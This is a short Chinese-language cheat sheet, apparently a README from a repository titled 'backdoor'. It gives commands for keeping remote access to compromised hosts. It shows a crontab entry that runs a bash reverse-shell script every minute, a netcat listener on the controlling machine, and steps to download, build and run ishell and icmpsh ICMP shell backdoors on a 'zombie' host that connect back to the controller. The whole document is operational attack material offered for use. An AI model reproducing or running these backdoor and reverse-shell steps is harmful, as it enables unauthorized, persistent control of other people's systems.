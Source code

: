 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>
